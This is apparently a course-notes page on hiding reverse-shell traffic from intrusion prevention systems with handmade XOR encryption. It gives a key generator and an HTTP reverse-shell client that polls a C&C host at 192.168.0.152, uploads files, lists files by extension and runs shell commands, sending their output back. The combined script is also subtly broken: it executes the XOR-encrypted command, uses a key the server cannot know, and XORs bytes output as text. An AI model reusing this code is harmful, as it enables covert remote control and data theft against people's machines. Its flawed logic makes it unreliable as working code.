 ```yaml
---
title: Bypassing IPS with handmade XOR Encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ips
  - xor encryption
---
```


# Bypassing IPS with handmade XOR Encryption

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


The idea is to encrypt our traffic to avoid network analyzers or intrusion prevention sensors. SSL or SSH is not recommended here since Next Generation Firewalls have the ability to decrypt them and pass it as plain text to the IPS, where it will be recognized.

- Create a secret key of 1Kb that matches the size of the socket, to make a XOR operation to encrypt the message


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


# The random and string libraries are used to generate a random string with flexible criteria
import string
import random


# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))


print(key)

print ("\n" + "Key length = " + str(len(key)))

message = 'ipconfig'
print("Msg: " + message + '\n')


# here i defined a dedicated function called str_xor, we will pass two values to this fucntion, the first value is the message(s1) that we want to encrypt or decrypt, and the second paramter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the same when we encrypt or decrpyt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message


def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])


# first we split the message and the xor key to a list of character pair in tuples format >>  for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now perform exclusive OR on them  >>  ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function  >>  chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequqnece string using >>>  "".join function 

enc = str_xor(message, key)

print("Encrypted message is " + "\n" + enc + "\n")

dec = str_xor(enc, key)
print("Decrypted message is " + "\n" + dec + "\n")

```



To integrate XOR encryption into [this client side Python script](coding-a-reverse-shell-that-searches-files.md), you can modify the script to encrypt and decrypt the communication between the client and the server using the XOR encryption algorithm.

Here is an example of how to modify the script to incorporate XOR encryption:

```python
import string
import random
import requests
import os
import subprocess
import time

# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))

# Define XOR function
def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])

while True:
    # Send GET request to C&C server to get command
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    
    # If command is to terminate, break out of loop
    if 'terminate' in command:
        break
    
    # If command is to grab a file and send it to the C&C server
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    
    # If command is to search for files with a specific extension
    elif 'search' in command:
        # Split command into path and file extension
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it
        
        # Walk through directories and search for files with specified extension
        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    
    # If command is a shell command, execute it and send output to the C&C server
    else:
        # Encrypt command with XOR key
        enc = str_xor(command, key)
        
        # Execute encrypted command and capture stdout and stderr
        CMD = subprocess.Popen(enc, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stdout.read(), key))
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stderr.read(), key))
    
    time.sleep(3)

```